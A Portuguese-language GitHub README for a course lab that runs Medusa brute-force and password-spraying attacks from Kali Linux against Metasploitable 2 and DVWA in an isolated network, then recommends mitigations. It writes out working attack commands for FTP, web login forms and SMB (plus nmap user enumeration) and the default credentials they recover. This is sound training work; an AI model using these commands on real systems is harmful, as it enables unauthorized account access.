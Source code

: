 # 🛡️ Projeto de Laboratório: Análise de Ataques de Força Bruta com Kali Linux e Medusa

Este repositório documenta a execução de um desafio prático da [Digital Innovation One (DIO)](https://www.dio.me/), focado em segurança ofensiva. O projeto consiste em simular ataques de força bruta em um ambiente de laboratório controlado para entender suas mecânicas, identificar vulnerabilidades e propor medidas de mitigação eficazes.

## 🎯 1. Objetivo

O objetivo principal deste projeto é demonstrar a utilização da ferramenta **Medusa** no **Kali Linux** para realizar auditorias de segurança em diferentes serviços, explorando ambientes vulneráveis como o **Metasploitable 2** e o **DVWA**. O processo foi inteiramente documentado para servir como um portfólio técnico e evidência de aprendizado.

---

## ⚙️ 2. Configuração do Ambiente de Laboratório

Para garantir a segurança e o isolamento dos testes, foi configurado um ambiente de virtualização dedicado.

* **Sistema Operacional Atacante:** Kali Linux (`<VERSÃO DO KALI>`)
* **Sistema Operacional Alvo:** Metasploitable 2
* **Software de Virtualização:** Oracle VM VirtualBox (`<VERSÃO DO VIRTUALBOX>`)
* **Configuração de Rede:**
    * **Tipo:** Rede Apenas de Anfitrião (Host-Only)
    * **Justificativa:** Esta configuração cria uma rede privada e isolada, permitindo que as máquinas virtuais (Kali e Metasploitable 2) se comuniquem entre si, sem expor os serviços vulneráveis à rede local ou à internet.
* **Verificação de Conectividade:**
    * IP do Kali Linux: `[SEU_IP_KALI]`
    * IP do Metasploitable 2: `[IP_DO_METASPLOITABLE]`
    * Teste de conectividade realizado com sucesso via comando `ping`.

_Imagem da topologia de rede (opcional):_
`![Topologia de Rede](https://github.com/celloweb-ai/brute_force_attack/blob/main/images/network-setup.png)`

---

## 💣 3. Execução dos Cenários de Ataque

Foram simulados três cenários de ataque distintos para avaliar a segurança de diferentes protocolos. As wordlists utilizadas foram criadas com base em credenciais comuns e podem ser encontradas neste repositório nos arquivos `usuarios.txt` e `senhas.txt`.

### Cenário 1: Força Bruta em Serviço FTP (vsftpd 2.3.4)

* **Objetivo:** Obter acesso não autorizado ao serviço FTP, que frequentemente contém arquivos sensíveis.
* **Ferramenta:** Medusa
* **Comando Executado:**
    ```bash
    medusa -h [IP_DO_METASPLOITABLE] -U usuarios.txt -P senhas.txt -M ftp -v 4
    ```
    * `-h`: Host alvo.
    * `-U`: Caminho para a lista de usuários.
    * `-P`: Caminho para a lista de senhas.
    * `-M`: Módulo do serviço a ser atacado (`ftp`).
    * `-v 4`: Nível de verbosidade para detalhar o processo.

* **Resultado:**
    * **Sucesso!** Acesso obtido com as credenciais: `usuário: msfadmin`, `senha: msfadmin`.
    * **Evidência:**
        `![Sucesso FTP](./images/ftp-success.png)`

---

### Cenário 2: Força Bruta em Formulário Web (DVWA)

* **Objetivo:** Comprometer uma aplicação web explorando um formulário de login com senhas fracas.
* **Ambiente Alvo:** Damn Vulnerable Web Application (DVWA) com nível de segurança **Low**.
* **Ferramenta:** Medusa
* **Comando Executado:**
    ```bash
    medusa -h [IP_DO_METASPLOITABLE] -u admin -P senhas.txt -M http -m DIR=/dvwa/login.php -m FORM-DATA="username=%USER%&password=%PASS%&Login=Login" -v 4
    ```
    * `-u admin`: Foca o ataque no usuário `admin`.
    * `-M http`: Módulo para o protocolo HTTP.
    * `-m DIR`: Diretório do script de login.
    * `-m FORM-DATA`: Define o payload da requisição POST, onde `%USER%` e `%PASS%` são as variáveis que o Medusa substitui a cada tentativa.

* **Resultado:**
    * **Sucesso!** Acesso obtido com as credenciais: `usuário: admin`, `senha: password`.
    * **Evidência:**
        `![Sucesso DVWA](./images/dvwa-success.png)`

---

### Cenário 3: Password Spraying em Serviço SMB

* **Objetivo:** Identificar contas com senhas fracas em um serviço de compartilhamento de arquivos (SMB), utilizando uma abordagem mais discreta que o brute force tradicional.
* **Técnica:** Password Spraying (uma única senha testada contra múltiplos usuários).
* **Ferramentas:** `nmap` (para enumeração) e `medusa`.

1.  **Passo 1: Enumeração de Usuários com Nmap**
    ```bash
    nmap --script smb-enum-users.nse -p 445 [IP_DO_METASPLOITABLE]
    ```
    * Este comando utilizou um script do Nmap para listar os usuários disponíveis no serviço SMB. A lista foi salva em `usuarios_smb.txt`.

2.  **Passo 2: Execução do Password Spraying com Medusa**
    ```bash
    medusa -h [IP_DO_METASPLOITABLE] -U usuarios_smb.txt -p msfadmin -M smbnt
    ```
    * `-U`: Lista de usuários enumerados.
    * `-p msfadmin`: Testa a **senha única** `msfadmin` contra todos os usuários.
    * `-M smbnt`: Módulo para o protocolo SMB.

* **Resultado:**
    * **Sucesso!** Acesso obtido para o usuário `msfadmin` com a senha `msfadmin`.
    * **Evidência:**
        `![Sucesso SMB](./images/smb-success.png)`

---

##  mitigation 4. Recomendações de Mitigação

Com base nas vulnerabilidades exploradas, as seguintes contramedidas são essenciais para fortalecer a segurança dos serviços:

1.  **Política de Senhas Fortes:** Implementar requisitos de complexidade (caracteres especiais, maiúsculas, minúsculas, números) e comprimento mínimo (12+ caracteres) para todas as credenciais.

2.  **Mecanismo de Bloqueio de Contas (Account Lockout):** Bloquear contas de usuários automaticamente após um número limitado de tentativas de login falhas (ex: 5 tentativas em 15 minutos).

3.  **Autenticação Multifator (MFA):** Habilitar MFA em todos os serviços críticos. Mesmo que uma senha seja comprometida, o acesso não autorizado é impedido pela exigência de um segundo fator.

4.  **Monitoramento e Alertas:** Utilizar sistemas de detecção de intrusão (IDS) e SIEM para monitorar logs de autenticação e gerar alertas para atividades suspeitas, como um alto volume de falhas de login de um único IP.

5.  **CAPTCHA para Aplicações Web:** Implementar CAPTCHA ou reCAPTCHA em formulários de login para diferenciar usuários humanos de bots automatizados, tornando ataques de força bruta em escala inviáveis.

6.  **Desabilitar Contas Padrão:** Nunca utilizar credenciais padrão em produção. Alterar todas as senhas de contas de serviço e de administrador durante a configuração inicial.

---

## 🎓 5. Conclusão e Aprendizados

A execução deste projeto prático foi extremamente valiosa para consolidar o conhecimento teórico sobre ataques de força bruta. Ficou evidente que senhas fracas e configurações padrão representam um risco de segurança crítico e são um dos vetores de ataque mais comuns e eficazes.

A principal lição aprendida é que a segurança é um processo em camadas. Uma única falha, como uma senha fraca, pode comprometer todo um sistema. Portanto, a implementação de múltiplas barreiras de defesa é fundamental para garantir a resiliência contra ameaças.

---

**Autor**

[Marcus Vasconcellos]

[![LinkedIn](https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/marcusvasconcellos/)
[![Perfil DIO](https://img.shields.io/badge/DIO-20232A?style=for-the-badge)](https://web.dio.me/users/seu-usuario-aqui)
